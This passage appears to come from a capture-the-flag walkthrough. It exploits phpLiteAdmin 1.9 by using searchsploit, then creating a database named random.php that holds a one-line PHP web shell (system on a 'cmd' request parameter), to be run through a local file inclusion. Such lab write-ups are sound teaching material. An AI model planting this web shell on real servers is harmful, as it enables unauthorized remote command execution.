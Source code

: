 We got a valid password! Use password123 to log into the application. Since this is an off the shelf application, let’s use searchsploit to find out if it is associated with any vulnerabilities.

```text
searchsploit phpLiteAdmin 1.9
```

We get back the following result.

![](../images/max/1316/1*JyUuvNiR8gXa8ZcDsDE3aA.png)

Let’s view the content of the Remote PHP Code Injection exploit. According to the comments made in the[ exploit](https://www.exploit-db.com/exploits/24044), an attacker can create a sqlite database with a php extension and insert php code as text fields. When done, the attacker can execute it simply by accessing the database file using the browser.

This is exactly the vulnerability I was hoping to find! This vulnerability allows me to drop a malicious file on the server and the LFI vulnerability we found earlier allows me to call and execute my malicious file.

## Gaining an Initial Foothold <a id="0917"></a>

In the **Create New Database** section, create a new database called random.php. Then click on random.php in the **Change Database** section. There, create a new table called _random_ with _1_ field. In the **Field** parameter add the following code and change the **Type** to _TEXT_.

```text
<?php echo system($_REQUEST ["cmd"]); ?>
```

![](../images/max/864/1*sd8OxwsILFYUSd-lsWkosw.png)

Click **Create**. As mentioned in the below image, the file is created in the directory /var/tmp.

![](../images/max/653/1*YESlKID92HzlKbVxaNrIpg.png)
